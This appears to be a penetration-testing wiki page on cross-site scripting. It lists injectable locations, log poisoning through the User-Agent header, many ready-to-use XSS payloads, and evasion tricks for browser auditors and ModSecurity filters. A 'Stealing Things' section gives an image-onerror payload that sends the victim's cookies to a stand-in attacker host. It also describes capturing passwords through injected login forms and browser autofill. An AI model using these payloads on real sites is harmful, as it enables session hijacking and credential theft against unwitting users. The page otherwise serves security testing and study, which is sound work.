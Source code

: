 # XSS/Cross Site Scripting

{% embed url="https://github.com/s0md3v/AwesomeXSS" %}

## XSSable Locations

### In the Document

XSS can occur as a result of the following things:

* The attacker can inject certain HTML tags
  * The simplest example is the `<script>` tag, but others can also work, such as `<img src=x onerror=alert(1)>`
* The attacker can inject text in between certain tags or in certain fields
  * The same as above, but instead of injecting the tag, the tag already exists, and the attacker is able to write text in between the tag.
  * For example, there's a `<img src=ATTACKER_INPUT_HERE>` tag, and the attacker injects `x onerror=alert(1)`
* The attacker can inject a malicious URL.
  * For example, `<a href="javascript:alert(1)">click me</a>`

### Log Poisoning

You can try to sneak XSS payloads into logs. If the application that views the logs treats input insecurely, then it might result in XSS.

If the User-Agent header is logged, then putting the payload there would be an easy way to get javascript into the log file.

## Payload Variations

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

Here are some common ones:

```
# Normal script tags
<script>alert(1)</script>

# HTML attributes, like img onerror
<iMg src=x onerror=prompt(1337);>

# XSS in between tags
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />     ← injecting ‘);alert(‘xss 

# Iframe xss, bypasses some sanitizers if “srcdoc” attribute is allowed
<iframe srcdoc="&lt;img src=x:x onerror=alert(1)&gt;"></iframe>
```

## Stealing Things

### Catch and Store Stolen Credentials

### Cookies

If cookies are configured to be accessible via Javascript (no **HttpOnly** flag), then you can just fetch the cookie and do a GET request to a site you control:

```
<iMg src=x oNerRor=this.src='https://mysite.com/somepage?creds='+document.cookie>
```

If you need a site for catching cookies, then [https://requestcatcher.com/](https://requestcatcher.com/) should be useful.

### Passwords

TODO: Link phishing page under Social Engineering or Web App Hacking?

You can capture a user's password. For example:

1. You can display a login page to the user and capture their password if they choose to enter it.
2. If the victim’s browser has remember password enabled, you can put a login form on the page, wait 1 second while the browser pastes their password there and then capture that.

## Filter Bypassing

### Multiple Fields Method

Works for **Chrome XSS Auditor** and many other filters. The bypass works by having two query parameters that you can inject into. When you combine the two injections, then a valid javascript payload is formed, and the XSS auditor doesn't detect it.

For example, the first parameter:

```
<script>alert("hi
```

The second parameter:&#x20;

```
");</script>
```

More bypasses: [https://www.youtube.com/watch?v=8GwVBpTgR2c](https://www.youtube.com/watch?v=8GwVBpTgR2c)

### Global Variables

[https://materials.rangeforce.com/tutorial/2019/10/23/ModSecurity-Filter-Evasion/](https://materials.rangeforce.com/tutorial/2019/10/23/ModSecurity-Filter-Evasion/)

This works for weak (default) **ModSecurity** rulesets.

Simple example:

```
<scirpt>self["alert"]("foo");</script>
```

### Nested Payloads

If malicious input is stripped only once, then try nested payloads:

```
<scri<script>pt>alert(1)</scri</script>pt>
```

### Various Payloads

Here are some more interesting payloads:

```
# Iframe XSS
<iframe srcdoc="&lt;img src=x:x onerror=alert(1)&gt;"></iframe>

# Against server-side parsers, this was an XSS in Google
<noscript><p title="</noscript><img src=x onerror=alert(1)>"> 

# CRLF injection to bypass javascript: being blacklisted
java%0d%0ascript%0d%0a:alert(0)

# incase svg onload= is filtered, the %0d acts as a seperator and can sometimes confuse wafs.
# %0a %0c %09 %00 are also common separators to use here.
<svg%0donload=prompt(1)>

# Uncommon XSS vector
<input onfocus=alert(0) autofocus>

# The use of \\ will break out of a quote inside a script tag
\\"-alert(0);//

# onmouseenter is like onmouseover, and confirm is like prompt
"onmouseenter=confirm(1)>
```





###





